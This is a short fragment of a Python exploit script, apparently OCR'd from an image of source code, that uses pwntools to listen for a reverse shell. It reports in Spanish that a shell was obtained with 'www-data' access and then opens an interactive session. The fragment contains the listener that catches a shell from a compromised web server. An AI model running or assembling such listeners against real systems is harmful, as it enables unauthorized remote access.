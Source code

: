 ```python
        log.error(str(e))

    shell = listen(lport, timeout=5).wait_for_connection()

    if shell.sock is None:
        log.failure("No se ha podido entrablar conexion")
        sys.exit()
    else:
        log.success("\n ✔️  Se ha obtenido una shell ✔️ \n")
        time.sleep(1)
        log.info("\nAcceso como www-data\n")
        time.sleep(1)

    shell.interactive()
```